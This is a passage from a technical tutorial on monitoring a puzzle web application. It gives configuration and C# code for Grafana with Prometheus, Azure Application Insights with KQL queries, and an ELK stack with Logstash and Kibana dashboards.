    url: http://prometheus:9090
    isDefault: true
    jsonData:
      timeInterval: 15s
      queryTimeout: 60s
      httpMethod: POST
    editable: true

  - name: Loki
    type: loki
    access: proxy
    url: http://loki:3100
    jsonData:
      maxLines: 1000
```

#### 4. Create Grafana Dashboards

```json
// grafana/provisioning/dashboards/puzzle-app.json
{
  "dashboard": {
    "title": "Puzzle Application Metrics",
    "uid": "puzzle-metrics",
    "timezone": "browser",
    "panels": [
      {
        "title": "Request Rate",
        "gridPos": { "h": 8, "w": 12, "x": 0, "y": 0 },
        "type": "graph",
        "targets": [
          {
            "expr": "sum(rate(http_requests_total[5m])) by (method, status)",
            "legendFormat": "{{method}} - {{status}}",
            "refId": "A"
          }
        ]
      },
      {
        "title": "Response Time (p95)",
        "gridPos": { "h": 8, "w": 12, "x": 12, "y": 0 },
        "type": "graph",
        "targets": [
          {
            "expr": "histogram_quantile(0.95, sum(rate(http_request_duration_seconds_bucket[5m])) by (le, endpoint))",
            "legendFormat": "{{endpoint}}",
            "refId": "A"
          }
        ]
      },
      {
        "title": "Active Puzzle Sessions",
        "gridPos": { "h": 8, "w": 12, "x": 0, "y": 8 },
        "type": "stat",
        "targets": [
          {
            "expr": "puzzle_active_sessions",
            "refId": "A"
          }
        ]
      },
      {
        "title": "Redis Memory Usage",
        "gridPos": { "h": 8, "w": 12, "x": 12, "y": 8 },
        "type": "graph",
        "targets": [
          {
            "expr": "redis_memory_used_bytes / (1024 * 1024)",
            "legendFormat": "Memory (MB)",
            "refId": "A"
          }
        ]
      }
    ]
  }
}
```

#### 5. Application Metrics Implementation

```csharp
// Program.cs - Add Prometheus metrics
using Prometheus;

var builder = WebApplication.CreateBuilder(args);

// Configure Prometheus metrics
builder.Services.AddSingleton<IMetricFactory>(Metrics.DefaultFactory);

var app = builder.Build();

// Enable metrics endpoint
app.UseHttpMetrics(options =>
{
    options.AddCustomLabel("service", context => "puzzle-api");
    options.ReduceStatusCodeCardinality();
});

app.MapMetrics(); // Exposes /metrics endpoint

// Custom metrics
public class PuzzleMetrics
{
    private readonly Counter _sessionsCreated;
    private readonly Gauge _activeSessions;
    private readonly Histogram _pieceMoveDuration;
    private readonly Summary _puzzleCompletionTime;

    public PuzzleMetrics()
    {
        _sessionsCreated = Metrics.CreateCounter(
            "puzzle_sessions_created_total",
            "Total number of puzzle sessions created",
            new CounterConfiguration
            {
                LabelNames = new[] { "puzzle_type", "difficulty" }
            });

        _activeSessions = Metrics.CreateGauge(
            "puzzle_active_sessions",
            "Number of currently active puzzle sessions");

        _pieceMoveDuration = Metrics.CreateHistogram(
            "puzzle_piece_move_duration_seconds",
            "Time taken to process piece moves",
            new HistogramConfiguration
            {
                LabelNames = new[] { "puzzle_id" },
                Buckets = Histogram.ExponentialBuckets(0.001, 2, 10)
            });

        _puzzleCompletionTime = Metrics.CreateSummary(
            "puzzle_completion_seconds",
            "Time taken to complete puzzles",
            new SummaryConfiguration
            {
                LabelNames = new[] { "difficulty" },
                Objectives = new[]
                {
                    new QuantileEpsilonPair(0.5, 0.05),
                    new QuantileEpsilonPair(0.9, 0.05),
                    new QuantileEpsilonPair(0.99, 0.01)
                }
            });
    }

    public void RecordSessionCreated(string puzzleType, string difficulty)
    {
        _sessionsCreated.WithLabels(puzzleType, difficulty).Inc();
        _activeSessions.Inc();
    }

    public void RecordSessionEnded()
    {
        _activeSessions.Dec();
    }

    public IDisposable TrackPieceMove(string puzzleId)
    {
        return _pieceMoveDuration.WithLabels(puzzleId).NewTimer();
    }

    public void RecordPuzzleCompleted(string difficulty, double seconds)
    {
        _puzzleCompletionTime.WithLabels(difficulty).Observe(seconds);
    }
}
```

### Azure Monitor with Application Insights

#### 1. Configure Application Insights

```csharp
// Program.cs
builder.Services.AddApplicationInsightsTelemetry(options =>
{
    options.ConnectionString = builder.Configuration["ApplicationInsights:ConnectionString"];
    options.EnableAdaptiveSampling = true;
    options.EnableDependencyTrackingTelemetryModule = true;
    options.EnablePerformanceCounterCollectionModule = true;
});

// Custom telemetry
builder.Services.AddSingleton<ITelemetryInitializer, CustomTelemetryInitializer>();
builder.Services.Configure<TelemetryConfiguration>(config =>
{
    config.TelemetryProcessorChainBuilder
        .Use(next => new CustomTelemetryProcessor(next))
        .Build();
});

public class CustomTelemetryInitializer : ITelemetryInitializer
{
    public void Initialize(ITelemetry telemetry)
    {
        telemetry.Context.GlobalProperties["Environment"] = 
            Environment.GetEnvironmentVariable("ASPNETCORE_ENVIRONMENT") ?? "Unknown";
        
        if (telemetry is RequestTelemetry request)
        {
            // Add custom properties
            if (HttpContext.Current?.User?.Identity?.IsAuthenticated == true)
            {
                request.Properties["UserId"] = HttpContext.Current.User.Identity.Name;
            }
        }
    }
}
```

#### 2. Track Custom Events and Metrics

```csharp
public class PuzzleService
{
    private readonly TelemetryClient _telemetryClient;
    
    public async Task<PuzzleSession> CreateSession(CreateSessionRequest request)
    {
        using var operation = _telemetryClient.StartOperation<RequestTelemetry>("CreatePuzzleSession");
        
        try
        {
            var session = await _repository.CreateSessionAsync(request);
            
            // Track custom event
            _telemetryClient.TrackEvent("PuzzleSessionCreated", new Dictionary<string, string>
            {
                ["PuzzleId"] = request.PuzzleId.ToString(),
                ["Difficulty"] = request.Difficulty,
                ["MaxParticipants"] = request.MaxParticipants.ToString()
            }, new Dictionary<string, double>
            {
                ["SessionDuration"] = 0
            });
            
            // Track custom metric
            _telemetryClient.TrackMetric("ActivePuzzleSessions", 
                await _repository.GetActiveSessionCountAsync());
            
            operation.Telemetry.Success = true;
            return session;
        }
        catch (Exception ex)
        {
            _telemetryClient.TrackException(ex, new Dictionary<string, string>
            {
                ["Operation"] = "CreatePuzzleSession",
                ["PuzzleId"] = request.PuzzleId.ToString()
            });
            
            operation.Telemetry.Success = false;
            throw;
        }
    }
    
    // Track dependencies
    public async Task<bool> CheckRedisConnection()
    {
        using var dependency = _telemetryClient.StartOperation<DependencyTelemetry>("Redis:Ping");
        dependency.Telemetry.Type = "Redis";
        dependency.Telemetry.Target = "puzzle-redis.redis.cache.windows.net";
        
        try
        {
            var result = await _redis.PingAsync();
            dependency.Telemetry.Success = true;
            dependency.Telemetry.ResultCode = "200";
            return result;
        }
        catch (Exception ex)
        {
            dependency.Telemetry.Success = false;
            dependency.Telemetry.ResultCode = "500";
            throw;
        }
    }
}
```

#### 3. Azure Monitor Queries

```kql
// Application Insights Analytics Queries

// Request performance analysis
requests
| where timestamp > ago(1h)
| summarize 
    RequestCount = count(),
    AvgDuration = avg(duration),
    P95Duration = percentile(duration, 95),
    P99Duration = percentile(duration, 99)
    by bin(timestamp, 5m), name
| render timechart

// Custom event analysis
customEvents
| where timestamp > ago(24h)
| where name == "PuzzleSessionCreated"
| extend Difficulty = tostring(customDimensions.Difficulty)
| summarize SessionCount = count() by Difficulty, bin(timestamp, 1h)
| render columnchart

// Exception tracking
exceptions
| where timestamp > ago(1d)
| summarize ExceptionCount = count() by type, method
| order by ExceptionCount desc
| take 10

// Dependency performance
dependencies
| where timestamp > ago(1h)
| where type == "Redis"
| summarize 
    AvgDuration = avg(duration),
    FailureRate = countif(success == false) * 100.0 / count()
    by name, target
| order by FailureRate desc
```

#### 4. Create Azure Dashboard

```json
{
  "version": "Notebook/1.0",
  "items": [
    {
      "type": 3,
      "content": {
        "version": "KqlItem/1.0",
        "query": "requests\n| summarize RequestsPerMin = count() by bin(timestamp, 1m)\n| render timechart",
        "size": 0,
        "title": "Requests per Minute",
        "timeContext": {
          "durationMs": 3600000
        }
      }
    },
    {
      "type": 3,
      "content": {
        "version": "KqlItem/1.0",
        "query": "customMetrics\n| where name == 'ActivePuzzleSessions'\n| project timestamp, value\n| render timechart",
        "size": 0,
        "title": "Active Puzzle Sessions"
      }
    }
  ]
}
```

### Kibana Setup

#### 1. Deploy ELK Stack

```yaml
# docker-compose-elk.yml
version: '3.8'

services:
  elasticsearch:
    image: docker.elastic.co/elasticsearch/elasticsearch:8.11.0
    container_name: elasticsearch
    environment:
      - discovery.type=single-node
      - "ES_JAVA_OPTS=-Xms512m -Xmx512m"
      - xpack.security.enabled=false
    volumes:
      - es_data:/usr/share/elasticsearch/data
    ports:
      - "9200:9200"

  logstash:
    image: docker.elastic.co/logstash/logstash:8.11.0
    container_name: logstash
    volumes:
      - ./logstash/pipeline:/usr/share/logstash/pipeline
      - ./logstash/config/logstash.yml:/usr/share/logstash/config/logstash.yml
    ports:
      - "5044:5044"
      - "5000:5000/tcp"
      - "5000:5000/udp"
    environment:
      - "LS_JAVA_OPTS=-Xmx256m -Xms256m"
    depends_on:
      - elasticsearch

  kibana:
    image: docker.elastic.co/kibana/kibana:8.11.0
    container_name: kibana
    environment:
      - ELASTICSEARCH_HOSTS=http://elasticsearch:9200
    ports:
      - "5601:5601"
    depends_on:
      - elasticsearch

volumes:
  es_data:
```

#### 2. Configure Logstash Pipeline

```ruby
# logstash/pipeline/logstash.conf
input {
  # Receive logs from applications
  tcp {
    port => 5000
    codec => json
  }
  
  # Receive metrics from Prometheus (via remote write)
  http {
    port => 9091
    codec => json
  }
  
  # Receive from Filebeat
  beats {
    port => 5044
  }
}

filter {
  # Parse application logs
  if [type] == "application" {
    json {
      source => "message"
    }
    
    date {
      match => [ "timestamp", "ISO8601" ]
      target => "@timestamp"
    }
    
    mutate {
      add_field => { "[@metadata][index_name]" => "app-logs-%{+YYYY.MM.dd}" }
    }
  }
  
  # Parse Prometheus metrics
  if [type] == "prometheus" {
    ruby {
      code => "
        event.get('[samples]').each do |sample|
          new_event = LogStash::Event.new(
            'metric_name' => sample['metric']['__name__'],
            'value' => sample['value'][1],
            '@timestamp' => Time.at(sample['value'][0]).utc,
            'labels' => sample['metric'].reject { |k,v| k == '__name__' }
          )
          new_event_block.call(new_event)
        end
        event.cancel
      "
    }
    
    mutate {
      add_field => { "[@metadata][index_name]" => "metrics-%{+YYYY.MM.dd}" }
    }
  }
}

output {
  elasticsearch {
    hosts => ["elasticsearch:9200"]
    index => "%{[@metadata][index_name]}"
  }
  
  # Debug output
  stdout {
    codec => rubydebug
  }
}
```

#### 3. Configure Application Logging

```csharp
// Configure Serilog for ELK
builder.Host.UseSerilog((context, services, configuration) =>
{
    configuration
        .ReadFrom.Configuration(context.Configuration)
        .Enrich.FromLogContext()
        .Enrich.WithMachineName()
        .Enrich.WithEnvironmentName()
        .Enrich.WithProperty("Application", "PuzzleApi")
        .WriteTo.Console(new ElasticsearchJsonFormatter())
        .WriteTo.Elasticsearch(new ElasticsearchSinkOptions(new Uri("http://localhost:9200"))
        {
            AutoRegisterTemplate = true,
            IndexFormat = "puzzle-api-{0:yyyy.MM.dd}",
            NumberOfReplicas = 0,
            NumberOfShards = 1
        });
});

// Structured logging
public class PuzzleController : ControllerBase
{
    private readonly ILogger<PuzzleController> _logger;
    
    [HttpPost("sessions")]
    public async Task<IActionResult> CreateSession(CreateSessionRequest request)
    {
        using var scope = _logger.BeginScope(new Dictionary<string, object>
        {
            ["PuzzleId"] = request.PuzzleId,
            ["UserId"] = User.Identity.Name
        });
        
        _logger.LogInformation("Creating puzzle session {@Request}", request);
        
        try
        {
            var session = await _service.CreateSessionAsync(request);
            
            _logger.LogInformation("Puzzle session created successfully {@Session}", new
            {
                session.Id,
                session.JoinCode,
                session.CreatedAt
            });
            
            return Ok(session);
        }
        catch (Exception ex)
        {
            _logger.LogError(ex, "Failed to create puzzle session");
            throw;
        }
    }
}
```

#### 4. Create Kibana Dashboards

```json
// Kibana Dashboard Configuration
{
  "version": "8.11.0",
  "objects": [
    {
      "id": "puzzle-logs-dashboard",
      "type": "dashboard",
      "attributes": {
        "title": "Puzzle Application Logs",
        "panels": [
          {
            "gridData": {
              "x": 0,
              "y": 0,
              "w": 24,
              "h": 15
            },
            "type": "visualization",
            "id": "log-levels-pie"
          },
          {
            "gridData": {
              "x": 24,
              "y": 0,
              "w": 24,
              "h": 15
            },
            "type": "visualization",
            "id": "errors-over-time"
          }
        ]
      }
    },
    {
      "id": "log-levels-pie",
      "type": "visualization",
      "attributes": {
        "title": "Log Levels Distribution",
        "visState": {
          "type": "pie",
          "aggs": [
            {
              "id": "1",
              "type": "count",
              "schema": "metric"
            },
            {
              "id": "2",
              "type": "terms",
              "schema": "segment",
              "params": {
                "field": "level.keyword",
                "size": 5
              }
            }
          ]
        }
      }
    }
  ]
}
```

### Integrating Multiple Data Sources

#### 1. Grafana with Multiple Sources

```yaml
# grafana/provisioning/datasources/all-sources.yml
apiVersion: 1

datasources:
  # Prometheus for metrics
  - name: Prometheus
    type: prometheus
    url: http://prometheus:9090
    isDefault: true
    
  # Elasticsearch for logs
  - name: Elasticsearch
    type: elasticsearch
    url: http://elasticsearch:9200
    jsonData:
      esVersion: "8.11.0"
      timeField: "@timestamp"
      
  # Azure Monitor
  - name: AzureMonitor
    type: grafana-azure-monitor-datasource
    jsonData:
      cloudName: azuremonitor
      tenantId: $AZURE_TENANT_ID
      clientId: $AZURE_CLIENT_ID
    secureJsonData:
      clientSecret: $AZURE_CLIENT_SECRET
```

#### 2. Unified Dashboard

```json
{
  "dashboard": {
    "title": "Unified Observability",
    "panels": [
      {
        "title": "Request Rate (Prometheus)",
        "datasource": "Prometheus",
        "targets": [{
          "expr": "rate(http_requests_total[5m])"
        }]
      },
      {
        "title": "Application Logs (Elasticsearch)",
        "datasource": "Elasticsearch",
        "targets": [{
          "query": "level:error AND application:PuzzleApi",
          "timeField": "@timestamp"
        }]
      },
      {
        "title": "Azure App Insights",
        "datasource": "AzureMonitor",
        "targets": [{
          "queryType": "Application Insights",
          "query": "requests | summarize count() by bin(timestamp, 5m)"
        }]
      }
    ]
  }
}
```

### Best Practices

```yaml
Monitoring Best Practices:
  1. Data Collection:
     - Use structured logging
     - Implement distributed tracing
     - Collect both metrics and logs
     - Add correlation IDs
     
  2. Storage Strategy:
     - Short-term: High resolution
     - Medium-term: Aggregated data
     - Long-term: Key metrics only
     - Cost optimization
     
  3. Dashboard Design:
     - Start with overview
     - Drill-down capability
     - Use consistent time ranges
     - Include annotations
     
  4. Alert Configuration:
     - Alert on symptoms, not causes
     - Use multiple conditions
     - Include runbook links
     - Implement escalation

Tool Selection:
  Grafana + Prometheus:
    - Open source stack
    - Pull-based metrics
    - Powerful query language
    - Cost-effective
    
  Azure Monitor:
    - Native Azure integration
    - Managed service
    - AI-powered insights
    - Enterprise features
    
  ELK Stack:
    - Log aggregation focus
    - Full-text search
    - Complex pipelines
    - Scalable architecture
```

The key is choosing the right tool for your needs: Grafana+Prometheus for metrics-focused monitoring, Azure Monitor for Azure-native applications, and ELK Stack for log aggregation and analysis. Many organizations use a combination for comprehensive observability.
